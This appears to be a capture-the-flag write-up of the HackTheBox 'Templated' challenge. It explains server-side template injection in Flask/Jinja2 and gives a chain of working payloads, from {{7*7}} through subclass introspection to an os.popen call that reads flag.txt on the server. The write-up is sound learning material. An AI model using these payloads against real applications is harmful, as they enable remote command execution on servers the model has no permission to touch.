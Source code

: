 ```yaml
---
title: "Templated"
date: 2025-08-20 21:47:00 +0500
categories: [Challenges]
tags: [HTB, Web, SSTI]
---
```


## Investigating the Instance

On visiting the spawned instance `http://94.237.54.192:48939`, we are greeted with:

![alt text](/assets/images/templated-web.png)

Something of interest is the message:

`Proudly powered by Flask/Jinja2`

I tried investigating the request and response headers yet nothing interesting showed up. 
I also did a directory brute force and had no results.

Then I tried going to random pages like:

`http://94.237.54.192:48939/robots.txt`

![alt text](/assets/images/templated-verbatim.png)

What I noticed was the reflected user input. (a big hint for SSTI usually)

Something Jinja is well known for is it's SSTI. So what's a SSTI?

### Understanding SSTI

SSTI or Server Side Templated Injection occurs when user input is embedded unsafely into server-side templates.

What happens in SSTI:

- Web applications use template engines (like Jinja2, Twig, Freemarker, etc.) to dynamically generate HTML, emails, or other content
- When user input is directly inserted into templates without proper validation or sanitization, attackers can inject malicious template code
- The template engine then executes this malicious code on the server

SSTI is considered a high-severity vulnerability because it can lead to complete server compromise, making it a critical concern for web application security.

### Testing for SSTI

For Jinja2 we have a simple payload that we could try and confirm the existence of SSTI. 

{% raw %}

```
{{7*7}}
```

```
94.237.54.192:48939/{{7*7}}
```

{% endraw %}

Our input wasn't `49` right?

![alt text](/assets/images/templated-SSTI.png)

## Abusing SSTI

Time for us to get the `/flag.txt`. 

### Reveal Class Information

We will attempt to exploit Python's object introspection capabilities to access the Method Resolution Order (MRO) of the string class (basically revealing class information).

{% raw %}

```
94.237.54.192:48939/{{ ''.__class__.__mro__ }}
```

{% endraw %}


Returns:

```
'(<class 'str'>, <class 'object'>)'
```

Since `object` was also revealed we could use it to reveal the sub-classes.

### Finding subclasses

We will now try to request all the sub-classes with:

{% raw %}

```
94.237.54.192:48939/{{ ''.__class__.__mro__[1].__subclasses__() }}
```

{% endraw %}


This will reveal a huge list of classes that inherit from object. We will try to find a class that we could use for malicious purpose specifically file operations in our context.

We are looking for either of the sub-class:

{% raw %}

- `<class 'subprocess.Popen'>`
- `<class '_io.TextIOWrapper'>`

{% endraw %}

I wrote a simple script that could be used to find the index of that sub-class:

```python
linesList = []

with open("classes.txt", "r") as file:
    lines = file.read()
    linesList = [item.strip() for item in lines.split(',')]
    
    search_string = "<class 'subprocess.Popen'>"
    if search_string in linesList:
        index_location = linesList.index(search_string)
        print(f"Found at index: {index_location}")
    else:
        print(f"'{search_string}' was not found in the list.")
```

We found it at index:

`Found at index: 414`

We can confirm if the index really is correct by:

{% raw %}

```
http://94.237.54.192:48939/%7B%7B%20''.__class__.__mro__[1].__subclasses__()[414]%20%7D%7D
```

{% endraw %}


Going down this route didn't work for me the way I intended. The other sub-classes weren't of much use either.

## Searching for import function

What I tried afterwards was to look for a sub-class that had `import` in their `global namespace`. One such sub-class is `warnings.catch_warnings`. We confirm if `import` is available by:

{% raw %}

```
94.237.54.192:48939/{{''.__class__.__mro__[1].__subclasses__()[186].__init__.__globals__}}
```
{% endraw %}


Afterwards, we will check if we can access the `import` function:

{% raw %}

```
http://94.237.54.192:48939/%7B%7B''.__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__import__']%7D%7D
```
{% endraw %}


Then, `import os` and access `popen` to read `flag.txt`:

{% raw %}

```
http://94.237.54.192:48939/%7B%7B"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat%20flag.txt").read()%7D%7D
```
{% endraw %}

---

